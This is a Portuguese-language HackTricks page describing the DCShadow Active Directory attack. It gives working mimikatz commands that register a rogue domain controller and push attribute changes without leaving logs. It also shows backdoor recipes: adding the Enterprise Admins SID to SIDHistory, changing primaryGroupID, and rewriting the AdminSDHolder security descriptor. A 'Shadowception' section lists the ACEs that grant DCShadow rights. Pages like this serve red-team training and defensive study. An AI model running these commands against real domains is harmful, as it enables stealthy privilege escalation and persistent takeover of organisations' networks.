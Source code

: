 {% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}


# DCShadow

Ele registra um **novo Controlador de Domínio** no AD e o utiliza para **empurrar atributos** (SIDHistory, SPNs...) em objetos especificados **sem** deixar quaisquer **logs** sobre as **modificações**. Você **precisa de privilégios DA** e estar dentro do **domínio raiz**.\
Note que se você usar dados incorretos, logs bem feios aparecerão.

Para realizar o ataque, você precisa de 2 instâncias do mimikatz. Uma delas iniciará os servidores RPC com privilégios de SYSTEM (você deve indicar aqui as alterações que deseja realizar), e a outra instância será usada para empurrar os valores:

{% code title="mimikatz1 (RPC servers)" %}
```bash
!+
!processtoken
lsadump::dcshadow /object:username /attribute:Description /value="My new description"
```
{% endcode %}

{% code title="mimikatz2 (push) - Necessita de DA ou similar" %}
```bash
lsadump::dcshadow /push
```
{% endcode %}

Observe que **`elevate::token`** não funcionará na sessão `mimikatz1`, pois isso elevou os privilégios da thread, mas precisamos elevar o **privilégio do processo**.\
Você também pode selecionar um objeto "LDAP": `/object:CN=Administrator,CN=Users,DC=JEFFLAB,DC=local`

Você pode enviar as alterações de um DA ou de um usuário com essas permissões mínimas:

* No **objeto de domínio**:
* _DS-Install-Replica_ (Adicionar/Remover Réplica no Domínio)
* _DS-Replication-Manage-Topology_ (Gerenciar Topologia de Replicação)
* _DS-Replication-Synchronize_ (Sincronização de Replicação)
* O **objeto Sites** (e seus filhos) no **container de Configuração**:
* _CreateChild and DeleteChild_
* O objeto do **computador que está registrado como um DC**:
* _WriteProperty_ (Não Write)
* O **objeto alvo**:
* _WriteProperty_ (Não Write)

Você pode usar [**Set-DCShadowPermissions**](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1) para conceder esses privilégios a um usuário sem privilégios (observe que isso deixará alguns logs). Isso é muito mais restritivo do que ter privilégios de DA.\
Por exemplo: `Set-DCShadowPermissions -FakeDC mcorp-student1 SAMAccountName root1user -Username student1 -Verbose`  Isso significa que o nome de usuário _**student1**_ ao fazer login na máquina _**mcorp-student1**_ tem permissões DCShadow sobre o objeto _**root1user**_.

## Usando DCShadow para criar backdoors

{% code title="Definir Enterprise Admins em SIDHistory para um usuário" %}
```bash
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-521-280534878-1496970234-700767426-519
```
{% endcode %}

{% code title="Alterar PrimaryGroupID (colocar usuário como membro dos Administradores do Domínio)" %}
```bash
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```
{% endcode %}

{% code title="Modificar ntSecurityDescriptor do AdminSDHolder (dar Controle Total a um usuário)" %}
```bash
#First, get the ACE of an admin already in the Security Descriptor of AdminSDHolder: SY, BA, DA or -519
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=Admin SDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
#Second, add to the ACE permissions to your user and push it using DCShadow
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<whole modified ACL>
```
{% endcode %}

## Shadowception - Dê permissões ao DCShadow usando DCShadow (sem logs de permissões modificados)

Precisamos adicionar os seguintes ACEs com o SID do nosso usuário no final:

* No objeto de domínio:
* `(OA;;CR;1131f6ac-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* `(OA;;CR;9923a32a-3607-11d2-b9be-0000f87a36b2;;UserSID)`
* `(OA;;CR;1131f6ab-9c07-11d1-f79f-00c04fc2dcd2;;UserSID)`
* No objeto do computador atacante: `(A;;WP;;;UserSID)`
* No objeto do usuário alvo: `(A;;WP;;;UserSID)`
* No objeto Sites no contêiner de Configuração: `(A;CI;CCDC;;;UserSID)`

Para obter o ACE atual de um objeto: `(New-Object System.DirectoryServices.DirectoryEntry("LDAP://DC=moneycorp,DC=loca l")).psbase.ObjectSecurity.sddl`

Observe que, neste caso, você precisa fazer **várias alterações,** não apenas uma. Portanto, na **sessão mimikatz1** (servidor RPC), use o parâmetro **`/stack` com cada alteração** que deseja fazer. Dessa forma, você só precisará **`/push`** uma vez para realizar todas as alterações acumuladas no servidor rogue.

[**Mais informações sobre DCShadow em ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1207-creating-rogue-domain-controllers-with-dcshadow)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
